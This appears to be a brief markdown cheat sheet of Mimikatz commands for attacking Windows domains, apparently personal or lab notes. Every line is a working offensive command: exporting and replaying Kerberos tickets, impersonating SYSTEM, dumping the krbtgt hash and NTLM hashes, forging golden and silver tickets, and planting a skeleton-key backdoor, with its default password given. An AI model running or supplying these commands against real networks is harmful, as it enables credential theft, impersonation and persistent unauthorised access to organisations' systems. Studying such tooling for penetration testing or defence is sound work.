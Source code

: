 # MIMIKATZ

## Author: https://github.com/gentilkiwi/mimikatz

### privilege::debug = Shows privileges on machine ( Ensure output is "20 OK")

### sekurlsa::tickets /export = Exports all .kirbi tickets to current directory

### kerberos::ptt TICKET = It will cache and impersonate the given ticket we harvested earlier (Pass-the-Ticket)

### klist = List our cached tickets

### token::elevate/revert = Impersonate SYSTEM

### lsadump::lsa /inject /name:krbtgt = Dumps the hash as well as the security identifier needed to create a golden ticket

### lsadump::lsa /inject /name:DOMAIN_ADMIN/SERVICE_ACCOUNT = Silver Ticket

### kerberos::golden /user:Administrator /domain:CONTROLLER.LOCAL /sid:SID /krbtgt:KRBTGT_NTLM_HASH /id:ID

### misc::cmd = Elevates command prompt with the given ticket

### misc::skeleton = Skeleton keyu (Kerberos Backdoor) (Default credentials: mimikatz)

### lsadump::lsa /patch = NTLM hashes dump
